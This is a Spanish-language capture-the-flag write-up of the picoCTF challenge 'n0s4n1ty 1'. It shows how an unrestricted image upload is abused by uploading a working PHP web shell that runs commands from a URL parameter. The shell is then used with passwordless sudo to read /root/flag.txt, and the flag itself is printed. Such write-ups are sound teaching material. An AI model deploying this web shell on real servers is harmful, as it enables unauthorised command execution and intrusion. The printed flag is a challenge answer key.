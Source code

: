 #  n0s4n1ty 1

## Descripcion
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:64354/)!
## Solucion
Primero nos conetamos al reto con el link que nos proporcionan.

Podemos ver un sitio en el cual podemos subir una foto de perfil, entonces vamos a probarlo.

Entonces obtenemos el siguiente mensaje: `The file null.png has been uploaded Path: uploads/null.png` y podemos en la URL, que el sitio esta usando PHP.

Con esto en mente y con el nombre del reto, vamos a subir algo que no es es una imagen, vamos a subir una shell PHP:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

Vamos al path que el sitio nos dice: `The file shell.php has been uploaded Path: uploads/shell.php`: [http://standard-pizzas.picoctf.net:64354/uploads/shell.php](http://standard-pizzas.picoctf.net:64354/uploads/shell.php)`

Y ahora podemos ejecutar comandos:
```shell
sudo -l
#Matching Defaults entries for www-data on challenge:
#    env_reset, mail_badpass, #secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

#User www-data may run the following commands on challenge:
#    (ALL) NOPASSWD: ALL
```

Buscamos en el directorio raiz:
```shell
sudo ls /root
#flag.txt
sudo cat /root/flag.txt
#picoCTF{wh47_c4n_u_d0_wPHP_712a9451}
```

Y obtenemos la bandera:
```flag
picoCTF{wh47_c4n_u_d0_wPHP_712a9451}
```

## Notas adicionales

## Referencias
